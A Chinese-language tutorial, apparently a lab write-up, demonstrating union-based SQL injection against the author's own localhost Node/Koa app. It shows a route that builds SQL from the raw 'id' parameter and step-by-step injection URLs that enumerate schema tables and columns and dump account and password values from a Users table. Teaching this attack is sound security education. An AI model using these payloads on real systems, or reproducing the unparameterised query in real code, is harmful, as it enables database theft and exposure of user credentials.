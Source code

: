 ## 计算机病毒与入侵关于SQL注入的研究（二）
### 写在前面
上一次我们尝试了越过用户登录权限，这一次我们再来尝试：**通过union拖库**
> union大法吼

### SQL注入前准备
- 生成测试需要的数据库和表
编写models/Article和models/migrate.js，然后运行node models/migrate重置数据库，生成如下图所示的Articles表：
![second1.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/second/images/second1.png?dir=0&filepath=second%2Fimages%2Fsecond1.png&oid=ad65c704b7552c852a4a508338fdb9cc0a7d1c17&sha=ca6c943f09be7b21a326ac9e4b2720d8cd6094d5=100x100)
- 编写路由代码：
```javascript
router.get("/article",function *(){
    var ctx = this;
    var query = ctx.request.query;
    var articleId = query.id || 1;
    debug("SQL",`select * from Articles where id = ${articleId}`);
    var data = yield db.query(`select * from Articles where id = ${articleId}`,{
        type: db.QueryTypes.SELECT
    });
    data = data.length !== 0 ? data[data.length - 1] : {
        title : "没有这个文章",
        content :"<p>没有这个文章</p>"
    };
    // debug(data);
    yield ctx.render("index.html", data);
})
```
上面是一个路由函数。简单的说就是处理GET参数id，然后使用SQL对id进行查询，得到数据渲染html返回给浏览器端。
对应路由是```http://localhost:3030/article?id=1```
运行起来如下图：
![second2.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/second/images/second2.png?dir=0&filepath=second%2Fimages%2Fsecond2.png&oid=31bb9fedb84be69ba698f50b9b543e1109ba2054&sha=ca6c943f09be7b21a326ac9e4b2720d8cd6094d5)

- 编写css和gulpfile.js自动化脚本等
引入browsersync和gulp自动脚本，与注入无关，略过

### SQL注入测试
首先测试 ```http://localhost:3030/article？id=3/*ABC*/```
可以发现返回的页面没有变化，说明对输入没有过滤，这里是可以注入的。
现在我们使用自己写的union进行邪恶地拖库（注：造成空格有两种：一种直接加空格Encode之后就是  ，一种使用/\*\*/注释来分隔，下面我们空格方便查看）
- 第一步，测试SQL注入语句，访问```http://localhost:3030/article?id=3 and 1=2```
可以发现页面显示没有文章，因为1=2永远为false，所以返回的是没有文章。
![second3.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/second/images/second3.png?dir=0&filepath=second%2Fimages%2Fsecond3.png&oid=9f6a8d91c3a61bfda1dccadae8e980a2daaae91f&sha=ca6c943f09be7b21a326ac9e4b2720d8cd6094d5)

- 第二步，union链接得到当前文章所在表的字段个数，从1开始测
```
http://localhost:3030/article?id=3 and 1=1 union select 1
http://localhost:3030/article?id=3 and 1=1 union select 1,2  
http://localhost:3030/article?id=3 and 1=1 union select 1,2,3  
http://localhost:3030/article?id=3 and 1=1 union select 1,2,3,4  
http://localhost:3030/article?id=3 and 1=1 union select 1,2,3,4,5  
```
前四步执行的时候都显示：
![second4.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/second/images/second4.png?dir=0&filepath=second%2Fimages%2Fsecond4.png&oid=d309dcd588b2739a221d708d02b1467cd4250b1e&sha=ca6c943f09be7b21a326ac9e4b2720d8cd6094d5)
因为union两头连接的表的字段数不一样，所以后台处理会发生错误，总之返回肯定会不正常，有的可能还会显示DEBUG信息= - =
最后第五步成功，我们放到mysql里面执行就是如下结果：
![second5.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/second/images/second5.png?dir=0&filepath=second%2Fimages%2Fsecond5.png&oid=841a123777bf1e7491dbcf28670f186a22957258&sha=ca6c943f09be7b21a326ac9e4b2720d8cd6094d5)
这个时候我们发现页面会发现展示的还是id=3的文章，返回信息没有变化，为什么呢?
我们看路由处理里面的代码，会发现取得数据是数组的第一个：
![second6.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/second/images/second6.png?dir=0&filepath=second%2Fimages%2Fsecond6.png&oid=f2643606e71c9dffd36753c57ecc3572008e7d31&sha=ca6c943f09be7b21a326ac9e4b2720d8cd6094d5)
所以碰到这种情况我们只要加一个order by id DESC就可以了：
```
http://localhost:3030/article?id=3 and 1=1 union select 10000,2,3,4,5 order by id DESC  
```
这个时候我们sql的执行结果是：
![second7.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/second/images/second7.png?dir=0&filepath=second%2Fimages%2Fsecond7.png&oid=d71a2ad62bb3005184a590b1052ad05f5d26770c&sha=ca6c943f09be7b21a326ac9e4b2720d8cd6094d5)
页面的返回结果是：
![second8.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/second/images/second8.png?dir=0&filepath=second%2Fimages%2Fsecond8.png&oid=4b28e96ca18ac5fe5faddf018269ba88302ffb87&sha=ca6c943f09be7b21a326ac9e4b2720d8cd6094d5)
！！！我们可以看到我们输入的2，3分别在这里被展示在了页面上，开心O(∩_∩)O哈哈~，这说明我们只要将2,3改成我们想要的信息就可以随意查看，好的，下面我们来进行第三步

- 第三步，得到数据库的信息：
将URL改成：
```
http://localhost:3030/article?id=3 and 1=1 union select 10000,version(),database(),4,5 order by id DESC  
```
通过mysql内置的函数看到了数据库的版本，数据表的名称：
![second9.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/second/images/second9.png?dir=0&filepath=second%2Fimages%2Fsecond9.png&oid=26239ee0a623bd228a1a6a15c759a548bca886bc&sha=ca6c943f09be7b21a326ac9e4b2720d8cd6094d5)
这很棒哦。现在我们要记住virustest这个数据库的名称，在下面有用处

- 第四步，得到这个数据库里面所有的表的名称：
将URL改成：
```
http://localhost:3030/article?id=3 and 1=1 union select 10000,2,TABLE_NAME,4,5 FROM INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA=virustest order by rand() DESC  
```
order by rand()是为了能够查看到所有的表名，我们多执行几次，就可以看到有一个Users表：
![second10.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/second/images/second10.png?dir=0&filepath=second%2Fimages%2Fsecond10.png&oid=7c04e1e47934c7e01b17781ad2307ac931a1a142&sha=ca6c943f09be7b21a326ac9e4b2720d8cd6094d5)
这个表就有意思了，我们来继续注入，尝试着拿到用户名和密码

- 第五步，拖出数据库内Users表的表段名称
将URL改成：
```
http://localhost:3030/article?id=3 and 1=1 union SELECT 10000,COLUMN_NAME,3,4,5 FROM information_schema.columns where TABLE_SCHEMA='virustest' and TABLE_NAME='Users' order by rand()
```
不断运行，由于order by rand()所以可以陆续看到所有的列名，我们可以看到有两个我们比较感兴趣：
![second11.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/second/images/second11.png?dir=0&filepath=second%2Fimages%2Fsecond11.png&oid=1a11580e22b0021646f3c07763243f47e49e54d3&sha=ca6c943f09be7b21a326ac9e4b2720d8cd6094d5)
![second12.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/second/images/second12.png?dir=0&filepath=second%2Fimages%2Fsecond12.png&oid=b733f21a45c93c0685bb719fb0bde8a8bdc654dd&sha=ca6c943f09be7b21a326ac9e4b2720d8cd6094d5)
记下account和password字段名称，我们开始拖出数据

- 第六步，拖出数据库内的数据
将URL改成
```
http://localhost:3030/article?id=3 and 1=1 union select 1,account,password,4,5 from Users order by rand() DESC
```
结果：
![second13.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/second/images/second13.png?dir=0&filepath=second%2Fimages%2Fsecond13.png&oid=8f989ffb55ff784f929f253faf7bd03c8c1da711&sha=ca6c943f09be7b21a326ac9e4b2720d8cd6094d5)
不断F5刷新，就可以看到所有的account和password

### 简单的注入分析
以上所有的注入过程都是对普通SQL语言的利用。
开发一个项目的时经常用到类似于id=?或者title=?这样的GET参数查询，不只是页面展示，在Restful API的时代，无论是前端web，还是手机app，与后端通信也很有可能会有很多这样的漏洞。很普遍的注入模式，造成的后果往往是灾难性的。